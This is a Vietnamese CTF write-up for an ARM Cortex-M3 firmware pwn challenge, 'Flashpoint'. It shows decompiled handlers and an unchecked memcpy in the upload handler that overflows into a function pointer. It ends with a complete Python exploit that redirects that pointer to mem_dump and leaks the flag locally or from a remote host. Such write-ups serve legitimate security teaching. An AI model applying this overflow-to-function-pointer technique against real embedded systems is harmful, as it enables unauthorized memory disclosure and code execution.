





## Flashpoint

#### Tìm hiểu về challenge


- Có thể thấy đây là binary ARM 32-bit, chạy cho vi điều khiển Cortex-M3. Điểm quan trọng là bài này không dùng ld.so hay libc theo kiểu chương trình Linux thông thường
- Khi mở file trong IDA64, điều đầu tiên mình làm là xác định các hàm chính liên quan đến protocol. Từ danh sách function trong IDA, có thể nhận ra một số hàm quan trọng như:
    - process_packets
    - handle_upload
    - handle_verify
    - handle_apply
    - mem_dump
#### Phân tích cách service nạp flag
- Trước khi đi sâu vào bug, mình sẽ đọc Dockerfile để xác định flag nằm ở đâu trong bộ nhớ.

-  Điều này cho thấy file flag.txt được nạp trực tiếp vào địa chỉ 0x00018000.
-  Mình tiếp tục đọc memory_map.h


- Từ đây mình rút ra hai ý quan trọng:
  -  vùng 0x00018000 là vùng flash chứa key material, đồng thời cũng chính là nơi remote map flag.txt
  - upload buffer và update context nằm liền nhau trong SRAM
#### Dịch ngược và đọc các hàm xử lý chính 
- Từ pseudocode và graph view của hàm này có thể thấy firmware thực hiện:
    - đọc dữ liệu từ UART
    - kiểm tra magic NFWU
    - parse command
    - dispatch sang các handler tương ứng
- Các command chính gồm:
    - INFO
    - UPLOAD
    - VERIFY
    - APPLY
- Điểm này cho thấy toàn bộ challenge xoay quanh quy trình cập nhật firmware, và hai hàm cần tập trung nhất là:
    - handle_upload
    - handle_verify
-   Vì UPLOAD là nơi mình đưa dữ liệu vào bộ nhớ, còn VERIFY là bước xử lý tiếp theo có thể tận dụng để thực thi logic nguy hiểm.
- Hàm process_packets
```C
void __fastcall __noreturn process_packets(int a1, int a2)
{
  const char *v2; // r0
  int v3; // r5
  unsigned __int16 v4; // r4
  int v5; // r1
  int v6; // r0
  int v7; // [sp+0h] [bp-20h] BYREF
  int v8; // [sp+4h] [bp-1Ch]

  v7 = a1;
  v8 = a2;
  uart_puts("[BOOT] Waiting for firmware update packet...\r\n");
  uart_puts("[BOOT] Protocol: NFWU over UART0\r\n\r\n");
  while ( 2 )
  {
    while ( 1 )
    {
      uart_read(&v7, 7);
      if ( (unsigned __int8)v7 == 78 && BYTE1(v7) == 70 && BYTE2(v7) == 87 && HIBYTE(v7) == 85 )
        break;
      v2 = "[PKT] ERROR: invalid magic, resync...\r\n";
LABEL_7:
      uart_puts(v2);
    }
    v3 = (unsigned __int8)v8;
    v4 = __rev16(*(unsigned __int16 *)((char *)&v8 + 1));
    v5 = v4;
    if ( v4 >= 0x200u )
      v5 = 512;
    v6 = uart_read(&bss_start, v5);
    switch ( v3 )
    {
      case 1:
        handle_info(v6);
        continue;
      case 2:
        handle_upload(&bss_start, v4);
        continue;
      case 3:
        handle_verify(v6);
        continue;
      case 4:
        handle_apply(v6);
        continue;
      default:
        v2 = "[PKT] ERROR: unknown command\r\n";
        goto LABEL_7;
    }
  }
}
```
- hàm handle_upload
```C
int __fastcall handle_upload(unsigned __int16 *a1, unsigned int a2)
{
  const char *v2; // r0
  unsigned __int16 v4; // r5
  unsigned __int16 *v5; // r7
  unsigned int v6; // r4
  unsigned __int16 v7; // r6
  unsigned int v8; // r3
  bool v9; // cf

  if ( a2 > 3 )
  {
    v4 = __rev16(*a1);
    v5 = a1 + 2;
    v6 = a2 - 4;
    v7 = __rev16(a1[1]);
    uart_puts("[UPLOAD] Chunk ");
    uart_puthex8(v4);
    uart_puts("/");
    uart_puthex8(v7);
    uart_puts(" (");
    uart_puthex32(v6);
    uart_puts(" bytes)\r\n");
    if ( !v4 )
    {
      memset_bare(536904160, 0, 24);
      MEMORY[0x200081F0] = 1;
      MEMORY[0x200081E8] = v7;
      MEMORY[0x200081EC] = 0;
      MEMORY[0x200081F4] = verify_signature;
    }
    memcpy_bare(MEMORY[0x200081EC] + 536903680, v5, v6);
    MEMORY[0x200081EC] += v6;
    v8 = MEMORY[0x200081E4] + 1;
    v9 = (unsigned int)(MEMORY[0x200081E4] + 1) >= MEMORY[0x200081E8];
    MEMORY[0x200081E4] = v8;
    if ( v8 < MEMORY[0x200081E8] )
    {
      v2 = "[UPLOAD] Chunk accepted. Send next chunk.\r\n";
    }
    else
    {
      v8 = 2;
      v2 = "[UPLOAD] Transfer complete. Send APPLY to flash.\r\n";
    }
    if ( v9 )
      MEMORY[0x200081F0] = v8;
  }
  else
  {
    v2 = "[UPLOAD] ERROR: payload too short\r\n";
  }
  return uart_puts(v2);
}
```
- hàm handle_verify
```C
int handle_verify()
{
  if ( !MEMORY[0x200081F0] )
    return uart_puts("[VERIFY] ERROR: no image uploaded\r\n");
  uart_puts("[VERIFY] Running verification...\r\n");
  return MEMORY[0x200081F4](MEMORY[0x200081E0], MEMORY[0x200081EC]);
}
```
- Mình nhận thấy bug ở hàm handle_upload
```C
memcpy_bare(MEMORY[0x200081EC] + 536903680, v5, v6);
```
- Firmware không hề kiểm tra giới hạn bộ đệm trước khi gọi memcpy_bare , do đó, chỉ cần gửi một chunk có kích thước lớn hơn 0x1E0, hoặc gửi nhiều chunk sao cho current_offset + data_len vượt quá 0x1E0, dữ liệu sẽ không dừng ở upload buffer mà tiếp tục ghi đè sang update context.
- Mình tiếp tục xem tiếp hàm handle_verify, hàm này không gọi một hàm xác minh cố định, mà lấy function pointer từ update context rồi gọi gián tiếp qua con trỏ đó. Đồng thời, cả hai tham số truyền vào hàm cũng được lấy từ chính update context.
- Điều này biến lỗi overflow ở handle_upload thành một dạng arbitrary function call trong firmware.
- Bước tiếp theo là tìm một hàm đủ hữu ích để leak flag. , mình lướt qua các hàm thì thấy hàm mem_dump là phù hợp nhất.
```C
unsigned __int8 *__fastcall mem_dump(unsigned __int8 *result, int a2)
{
  unsigned __int8 *v2; // r1
  int v3; // t1

  v2 = &result[a2];
  while ( result != v2 )
  {
    while ( (MEMORY[0x40004004] & 8) != 0 )
      ;
    v3 = *result++;
    MEMORY[0x40004000] = v3;
  }
  return result;
}
```
-  Hàm này thực hiện :
    - nhận một địa chỉ đầu vào
    - nhận độ dài
    - đọc từng byte từ bộ nhớ
    - in thẳng ra UART
- Do đó nếu ép firmware thực hiện mem_dump tại địa chỉ flag.txt thì nội dung flag sẽ được in ra màn hình

#### Hướng khai thác
- Nhận thấy remote service đã map flag.txt vào địa chỉ 0x00018000, nên mình sẽ overwrite phần update context để hàm handle_verify gọi `mem_dump(0x00018000, len)` , thì khi đó firmware sẽ tự in ra toàn bộ nội dung ở vùng nhớ chứa flag
- Payload tổng thể gồm hai bước:
  - Gửi UPLOAD với dữ liệu dài 0x1f8 byte để overflow sang context
  - Gửi VERIFY để firmware gọi function pointer đã bị ghi đè
#### PoC
```python
#!/usr/bin/env python3
import os
import re
import select
import shutil
import socket
import struct
import subprocess
import sys
import time


ROOT = os.path.abspath(os.path.dirname(__file__))
BINARY = os.path.join(ROOT, "challenge", "flashpoint")
FLAG_FILE = os.path.join(ROOT, "challenge", "flag.txt")
DOCKER_IMAGE = "pwn_flashpoint_biz_2026"

MEM_DUMP = 0x00000173
FLAG_ADDR = 0x00018000
UPLOAD_DATA_LEN = 0x1F8


def qemu_cmd():
    if shutil.which("qemu-system-arm"):
        return [
            "qemu-system-arm",
            "-machine",
            "mps2-an385",
            "-cpu",
            "cortex-m3",
            "-kernel",
            BINARY,
            "-device",
            f"loader,file={FLAG_FILE},addr=0x{FLAG_ADDR:08x},force-raw=on",
            "-serial",
            "stdio",
            "-monitor",
            "none",
            "-display",
            "none",
        ]

    return [
        "docker",
        "run",
        "--rm",
        "-i",
        "-v",
        f"{ROOT}:/work",
        DOCKER_IMAGE,
        "qemu-system-arm",
        "-machine",
        "mps2-an385",
        "-cpu",
        "cortex-m3",
        "-kernel",
        "/work/challenge/flashpoint",
        "-device",
        f"loader,file=/work/challenge/flag.txt,addr=0x{FLAG_ADDR:08x},force-raw=on",
        "-serial",
        "stdio",
        "-monitor",
        "none",
        "-display",
        "none",
    ]


def pkt(cmd, data=b""):
    return b"NFWU" + bytes([cmd]) + struct.pack(">H", len(data)) + data


def build_upload():
    data = bytearray(b"A" * UPLOAD_DATA_LEN)
    data[0x1E0:0x1E4] = struct.pack("<I", FLAG_ADDR)   
    data[0x1E4:0x1E8] = struct.pack("<I", 0)           
    data[0x1E8:0x1EC] = struct.pack("<I", 1)           
    data[0x1EC:0x1F0] = struct.pack("<I", 0)           
    data[0x1F0:0x1F4] = struct.pack("<I", 0)         
    data[0x1F4:0x1F8] = struct.pack("<I", MEM_DUMP)    
    return struct.pack(">HH", 0, 1) + data


def read_some(proc, seconds):
    deadline = time.time() + seconds
    out = bytearray()

    while time.time() < deadline:
        if proc.poll() is not None:
            chunk = proc.stdout.read() or b""
            out.extend(chunk)
            break

        ready, _, _ = select.select([proc.stdout], [], [], 0.1)
        if proc.stdout in ready:
            chunk = os.read(proc.stdout.fileno(), 4096)
            if not chunk:
                break
            out.extend(chunk)

    return bytes(out)


def read_until_flag(proc, timeout):
    deadline = time.time() + timeout
    out = bytearray()
    pattern = re.compile(rb"HTB\{[^}]+\}")

    while time.time() < deadline:
        chunk = read_some(proc, 0.2)
        if chunk:
            out.extend(chunk)
            if pattern.search(out):
                break
        elif proc.poll() is not None:
            break

    return bytes(out)


def recv_with_timeout(sock, seconds):
    end = time.time() + seconds
    out = bytearray()

    while time.time() < end:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            out.extend(chunk)
        except TimeoutError:
            break
        except socket.timeout:
            break

    return bytes(out)


def solve_remote(host, port):
    payload = pkt(0x02, build_upload()) + pkt(0x03)
    print(f"[*] Connecting to {host}:{port}", file=sys.stderr)

    sock = socket.create_connection((host, port), timeout=5)
    sock.settimeout(1.0)

    try:
        banner = recv_with_timeout(sock, 0.5)
        sys.stderr.buffer.write(banner)

        sock.sendall(payload)
        out = recv_with_timeout(sock, 2.0)
        sys.stdout.buffer.write(out)

        combined = banner + out
        match = re.search(rb"HTB\{[^}]+\}", combined)
        if not match:
            raise SystemExit("flag not found in remote output")

        print(match.group(0).decode(), file=sys.stderr)
    finally:
        sock.close()


def main():
    if len(sys.argv) >= 2 and sys.argv[1] == "remote":
        if len(sys.argv) != 4:
            raise SystemExit(f"usage: {sys.argv[0]} remote HOST PORT")
        solve_remote(sys.argv[2], int(sys.argv[3]))
        return

    cmd = qemu_cmd()
    print("[*] Launching:", " ".join(cmd), file=sys.stderr)
    proc = subprocess.Popen(
        cmd,
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        bufsize=0,
    )

    try:
        banner = read_some(proc, 1.0)
        sys.stderr.buffer.write(banner)

        proc.stdin.write(pkt(0x02, build_upload()))
        proc.stdin.flush()
        stage1 = read_some(proc, 0.5)
        sys.stderr.buffer.write(stage1)

        proc.stdin.write(pkt(0x03))
        proc.stdin.flush()
        stage2 = read_until_flag(proc, 3.0)

        combined = banner + stage1 + stage2
        sys.stdout.buffer.write(stage2)

        match = re.search(rb"HTB\{[^}]+\}", combined)
        if not match:
            raise SystemExit("flag not found in dump")

        print(match.group(0).decode(), file=sys.stderr)
    finally:
        proc.terminate()
        try:
            proc.wait(timeout=1)
        except subprocess.TimeoutExpired:
            proc.kill()


if __name__ == "__main__":
    main()
```


